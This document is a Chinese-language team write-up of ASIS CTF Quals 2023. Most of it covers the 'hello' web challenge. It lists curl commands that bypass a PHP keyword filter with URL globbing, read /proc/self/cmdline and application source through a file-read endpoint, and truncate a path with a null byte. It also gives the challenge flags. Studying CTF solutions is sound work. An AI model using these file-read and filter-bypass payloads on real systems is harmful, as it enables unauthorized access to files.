



# ASIS CTF Quals 2023 Writeup

- Team name：`clpcs`

## Greetings

- Flag：`ASIS{w3lc0m3_70_4S1S_C7F!_H3r3'5_70_4n_3xc171n6_4nd_ch4113n63_3xp3r13nc3!}}`

### 解題流程與思路
簽到題。

**解題過程：**
COPY & PASTE

**取得 flag 的畫面：**


## hello

- Flag：`ASIS{good_job_bun}`

### 解題流程與思路

**解題過程：**
1. 給了一個網址，直接連看看 `curl http://45.147.231.180:8000`
2. 得到一份 `php` code 如下，可以知道目標是要取得 `/next.txt`，且於網址中加入 `x` 參數會被拿去 check 是否包含 `file`、`next`，如無責該網頁會執行 `system('curl '.escapeshellarg($_GET['x']))`，可以以 Server 的身分取得某個東西，且因為 escapeshellarg 只能被當成一個參數。
    ```php
    <?php
    /*
    Read /next.txt
    Hint for beginners: read curl's manpage.
    */
    highlight_file(__FILE__);
    $url = 'file:///hi.txt';
    if(
        array_key_exists('x', $_GET) &&
        !str_contains(strtolower($_GET['x']),'file') && 
        !str_contains(strtolower($_GET['x']),'next')
    ){
        $url = $_GET['x'];
    }
    system('curl '.escapeshellarg($url));
    ```
3. 透過 `curl file:///next.txt` 即可取得目標，但會被判到 `file`、`next`，再詳閱 manpage 後發現可以透過 `curl fil[e-f]:///n[e-f]xt.txt` 的方式使 `curl` 訪問 `file:///next.txt`、`file:///nfxt.txt`、`filf:///next.txt`、`filf:///nfxt.txt`，且可以避開字串判斷。
4. 透過 unicode encode `fil[e-f]:///n[e-f]xt.txt` 後，放進 `x`。`curl http://45.147.231.180:8000?x=fil%5Be-f%5D%3A%2F%2F%2Fn%5Be-f%5Dxt.txt`，即可得到以下資訊。
    ```
    wow... so next step is available at http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/
    ```
5. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/`，會得以下資訊，得知這個 server 有訪問檔案的功能。
    ```
    did you know i can read files?? amazing right,,, maybe try /39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline
    ```
6. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline | base64 -d`，出來的解果明顯為 base64 過的值，因此先解回去，而 `/proc/self/cmdline` 放的為執行此 `proc` 時是 command。
    ```sh
    /bin/bun-1.0.2/app/index.js
    ```
7. 而此解果應該為 `/bin/bun-1.0.2 /app/index.js`，所以透過該 Server 取得 `/app/index.js`，`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/app/index.js | base64 -d`即可獲得 `index.js`
    ```java
    const fs = require('node:fs');
    const path = require('path')

    /*
    I wonder what is inside /next.txt
    */

    const secret = '39c8e9953fe8ea40ff1c59876e0e2f28'
    const server = Bun.serve({
    port: 8000,
    fetch(req) {
            let url = new URL(req.url);
            let pname = url.pathname;
            if(pname.startsWith(`/${secret}`)){
        if(pname.startsWith(`/${secret}/read`)){
            try{
            let fpath = url.searchParams.get('file');
            if(path.basename(fpath).indexOf('next') == -1){
                return new Response(fs.readFileSync(fpath).toString('base64'));
            } else {
                return new Response('no way');
            }
            } catch(e){ }
            return new Response("Couldn't read your file :(");
        }
        return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
        }
        return
    }
    });
    ```
8. 可以得知目標為 `/next.txt`，且會透過 `path.basename(fpath).indexOf('next') == -1` 確認檔名是否包含 `next`。
9. 由於 `basename` 只會取最後一個 `/` 後的字串，而 `readFileSync` 使用的完整得 path 且字串通常看到 `'\0'` 就會判斷結束，可以基於這些理由構造一個字串。`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/1 | base64 -d`，即可取得以下資訊。
    ```
    Now it's time for a whitebox challenge.
    Find the hidden subdomain and then a secret endpoint and only then you may receive your flag.
    Link to the website: `anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==`
    ```
10. 再解一次 base64 即可取得 flag `echo 'anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==' | base64 -d`
**取得 flag 的畫面：**


## Grid (比賽中主要 codding 人為隊友)

- Flag：`ASIS{7Hi5_!Z_4n0tH3R_Ea5Y_WaRmUpUp_cHALleN9E!!}`

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**


## Renamiara (未於賽中解出)

- Flag：`ASIS{_An07H3r_F1XeD_PoInt5_f0r_DLP!!}`

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**


## hipwn (未於賽中解出)

- Flag：``

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
